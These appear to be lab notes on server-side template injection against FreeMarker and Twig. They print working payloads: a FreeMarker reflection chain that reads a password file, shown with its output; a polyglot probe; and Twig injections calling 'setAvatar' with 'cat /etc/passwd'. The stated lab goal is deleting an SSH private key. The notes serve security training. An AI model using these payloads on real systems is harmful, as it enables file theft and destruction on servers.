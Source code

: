 The payload `${product}` returned `lab.actions.templateengines.FreeMarkerProduct@184cf7cf`

`${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}` returned `55 55 103 112 51 97 54 110 109 112 107 114 99 51 107 52 54 115 111 111`, decoded from hex we got the text.

### Constructing a custom exploit using developer-supplied objects

Some template engines run in a secure, locked-down environment by default in order to mitigate the associated risks as much as possible. Although this makes it difficult to exploit such templates for remote code execution, developer-created objects that are exposed to the template can offer a further, less battle-hardened attack surface.

However, while substantial documentation is usually provided for template built-ins, site-specific objects are almost certainly not documented at all. Therefore, working out how to exploit them will require you to investigate the website's behavior manually to identify the attack surface and construct your own custom exploit accordingly. 

### Lab: Server-side template injection with a custom exploit


This lab is vulnerable to server-side template injection. To solve the lab, create a custom exploit to delete the file `/.ssh/id_rsa` from Carlos's home directory.

You can log in to your own account using the following `credentials: wiener:peter`

`${{<%[%'"}}%\.`

Use this polyglot payload will trigger an error

```
PHP Fatal error: Uncaught Twig_Error_Syntax: Unexpected character "$" in "index" at line 1. in /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Lexer.php:270 
...
```

The lexer in `Twig` encountered `$`, which is not expected in its syntax, leading to the error at line 270 of the `Lexer.php`.

When upload a unvalid file as the avatar, the web returned
```
PHP Fatal error:  Uncaught Exception: Uploaded file mime type is not an image: application/x-openvpn-profile in /home/carlos/User.php:28
Stack trace:
#0 /home/carlos/avatar_upload.php(19): User->setAvatar('/tmp/nguyenlong...', 'application/x-o...')
#1 {main}
thrown in /home/carlos/User.php on line 28
```
Noticed that theres a method called `user.setAvater`

`blog-post-author-display=user.first_name}}{{user.setAvatar('cat+/etc/passwd')` returned
```
PHP Fatal error: Uncaught ArgumentCountError: Too few arguments to function User::setAvatar(), 1 passed in /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Extension/Core.php on line 1601 and exactly 2 expected in /home/carlos/User.php:26 Stack trace: #0 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Extension/Core.php(1601): User->setAvatar('cat /etc/passwd') #1 /usr/local/envs/php-twig-2.4.6/vendor/twig/twig/lib/Twig/Environment.php(378)
...
```
